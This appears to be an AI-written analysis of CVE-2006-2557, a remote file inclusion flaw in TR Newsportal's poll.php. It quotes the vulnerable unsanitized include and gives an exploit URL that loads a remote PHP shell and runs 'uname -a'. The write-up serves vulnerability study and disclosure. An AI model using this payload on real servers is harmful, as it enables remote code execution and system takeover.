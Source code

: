 Based on the provided content, here's an analysis of CVE-2006-2557:

**Root Cause of Vulnerability:**

*   The vulnerability is a Remote File Inclusion (RFI) vulnerability present in the `poll.php` script of TR Newsportal versions 0.36 and earlier.
*   The script uses an unsanitized variable `$file_newsportal` in an `include()` statement.
*   Specifically, the line `include("$file_newsportal");` is vulnerable because the `$file_newsportal` variable can be manipulated via a GET request.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The primary vulnerability is the ability to include a remote file into the application by manipulating the `file_newsportal` parameter. This occurs because the application doesn't properly validate or sanitize user input provided through the GET parameter, allowing an attacker to inject a malicious URL.

**Impact of Exploitation:**

*   **Arbitrary Code Execution:** By including a malicious remote file (e.g., a PHP shell), an attacker can execute arbitrary PHP code on the server. This can result in a full compromise of the affected system, including the ability to modify or delete files, access sensitive data, and potentially pivot to other systems on the same network.
*   **System Compromise:** Successful exploitation could allow an attacker to gain complete control over the web server.
*   **Data Breach:** An attacker could potentially access and exfiltrate sensitive information stored on the server.

**Attack Vectors:**

*   **HTTP GET Request:** The vulnerability is exploited through a specially crafted HTTP GET request.
*   **Manipulated URL Parameter:** The attacker manipulates the `file_newsportal` parameter in the URL to include a malicious PHP file from a remote server.

**Required Attacker Capabilities/Position:**

*   **Remote Access:** The attacker needs to be able to send HTTP requests to the vulnerable server.
*   **No Authentication:** The vulnerability does not require any prior authentication.
*   **Basic Web Knowledge:** The attacker needs basic understanding of web requests, URLs, and parameters.
*   **Malicious Script Hosting:** The attacker needs to have a web server where a malicious PHP script can be hosted.

**Technical Details:**
* The vulnerable code in `extras/poll/poll.php` is:
   ```php
   <?
   include("$file_newsportal");
   ?>
   ```
* The exploit URL is similar to:
  `http://www.site.com/[Newsportal_path]/extras/poll/poll.php?file_newsportal=[evil_scripts]`
  e.g. `http://[url]/[pathtonewsportal]/extras/poll/poll.php?file\_newsportal=http://localhost/phpshell.txt?cmd=uname -a`
* `register_globals` needs to be enabled on the server for the vulnerability to work, as the exploit relies on setting the `file_newsportal` variable in the GET request

**Additional Notes:**

*   The exploit-db entry provides a basic proof-of-concept.
*   The securityreason.com entry provides a more detailed technical description and includes CVSS information
* The vulnerability was discovered by Florian Amrhein and the PoC was created by Philipp Niedziela
* The vulnerability was reported to be fixed in version 0.37.

This analysis provides more technical detail than the placeholder CVE description.